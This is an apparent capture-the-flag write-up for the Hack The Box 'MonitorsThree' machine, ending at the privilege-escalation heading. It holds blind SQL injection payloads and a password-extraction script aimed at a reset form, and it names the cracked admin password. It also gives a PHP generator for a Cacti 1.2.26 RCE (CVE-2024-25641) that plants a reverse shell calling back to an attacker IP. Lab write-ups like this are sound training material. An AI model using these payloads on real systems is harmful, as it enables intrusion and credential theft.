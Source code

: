 This is a writeup for recently retired monitorsthree machine in Hackthebox platform.

### Part 1: Enumeration

As always lets startup with good old nmap scan:

![NMAP](/static/writeups/monitors/1.png)

SSH and HTTP with port 22 and 80 respectively are open.
lets see what website is hosted in port 80, we have to add monitorsthree.htb to machine ip in /etc/hosts:

![NMAP](/static/writeups/monitors/2.png)

I can see site called monitorsthree.htb, lets enumerate subdomain:
as i used bash script, to add wordlist to /etc/host and send request to it:

```
#!/bin/bash

DOMAIN="monitorsthree.htb"
IP="10.10.11.30"

WORDLIST="/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt"


while read -r SUBDOMAIN; do
    FULLDOMAIN="${SUBDOMAIN}.${DOMAIN}"

    echo "$IP $FULLDOMAIN" >> /etc/hosts

    RESPONSE=$(curl -s -o /dev/null -w "%{http_code}" "http://$FULLDOMAIN")

    if [ "$RESPONSE" == "302" ]; then
        echo "Found: $FULLDOMAIN"
    fi

    sed -i "/$FULLDOMAIN/d" /etc/hosts

done < "$WORDLIST"

```

I found interesting subdomain called 'cacti.monitorsthree.htb', it asks for login credentials we don't have any so for now lets keep note of it.

there is a login page in monitorsthree.htb/login.php, and when using forgot password, i found sql injection in forgot_password.php by submitting:`'`:

![NMAP](/static/writeups/monitors/3.png)

### Part 2: Foothold

by submitting : `'order by 3--+` till it gives error, from error we can see that it uses mariadb
or we can use:
`ad'union select null,null,null,null,null,null,null,null,null from dual-- `
when we query nine column it says successfully sent request code, so we should use nine column from now in our sql query.
by submitting `'||(SELECT '' FROM table)||'` it gives error and querying using
`'||(SELECT '' FROM users)||'` gives successful output

![NMAP](/static/writeups/monitors/5.png)

now we know there is a table called users.
To enumerate user, i first used username administrator
`ad' ||((SELECT 'a' FROM users WHERE username='administrator')='a')||'`
this gives error: `Unable to process request, try again!`

![NMAP](/static/writeups/monitors/4.png)

but as when we input admin: `ad' ||((SELECT 'a' FROM users WHERE username='admin')='a')||'`
it outputs: `Successfully sent password reset request!`

![NMAP](/static/writeups/monitors/5.png)

so, we know there is user called admin more clinically now.

`ad' ||((SELECT 'a' FROM users WHERE username='admin' and length(password)=32)='a')||'`
password length = 32
`ad' ||(SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='3'||'`

`ad' ||(SELECT SUBSTRING(password,2,1) FROM users WHERE username='admin')='1'||'`

It is time consuming so i decided to do it with python script:

```
import requests
import time

# Target URL
url = "http://monitorsthree.htb/forgot_password.php"

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Function to check if a guessed character is correct
def is_correct_char(position, char):
    # Construct payload
    payload = f"ad' ||((SELECT SUBSTRING(password,{position},1) FROM users WHERE username='admin')='{char}')||'"

    # Data to be sent in the POST request
    data = {
        "username": payload,
        "submit": "Send"
    }

    try:
        # Send the POST request
        response = requests.post(url, data=data)
        # Check response to see if the guess was correct
        if "Successfully sent password reset request!" in response.text:
            return True
    except requests.exceptions.ConnectionError as e:
        print("Connection error. Retrying...")
        time.sleep(5)  # Wait for 5 seconds before retrying
        return is_correct_char(position, char)
    return False

# Loop to find each character of the password
for position in range(1, 33):  # Assuming password length is 32
    for char in characters:
        if is_correct_char(position, char):
            # Add the correct character to the known password
            known_password += char
            print(f"[+] Found character {position}: {char}")
            break
    # Delay to avoid server-side rate limiting or detection
    time.sleep(1)  # Adjust the delay as necessary

# Print the complete password when done
print(f"[+] Password: {known_password}")

```

Output:

![NMAP](/static/writeups/monitors/6.png)

I got admin user hash value from it:

By using hashid, i think it is md5 hash

![NMAP](/static/writeups/monitors/7.png)

I cracked the hash using hashcat which corresponds to: greencacti2001

![NMAP](/static/writeups/monitors/8.png)

Now, lets use these credential in login.php and 'cacti.monitorsthree.htb'. One thing i notice when opening 'cacti.monitorsthree.htb' is it is using cacti v 1.2.26 and quick research shows us vulnerability in this specific version to use Arbitrary file write to RCE.

[https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26.git]

To get shell i used this:

```
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/shell.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php
\$ip = '10.10.14.59';
\$port = 3669;
\$sock = fsockopen(\$ip, \$port);
\$proc = proc_open('/bin/bash -i', array(0 => \$sock, 1 => \$sock, 2 => \$sock), \$pipes);
?>";
$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("shell.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat shell.xml | gzip -9 > shell.xml.gz; rm shell.xml");

?>


```

save this as shell.php and run it using `php shell.php`, it will generate file called shell.xml.gz upload it in import packages in cacti:

![NMAP](/static/writeups/monitors/9.png)

As you can see, we successfully uploaded shell.php in the machine, we can execute it by going to: `http://cacti.monitorsthree.htb/cacti/resource/shell.php`
before that open netcat listener in your machine: `nc -nvlp port`
I got shell as www-data using this method.

### Part 3: Privilege Escalation:
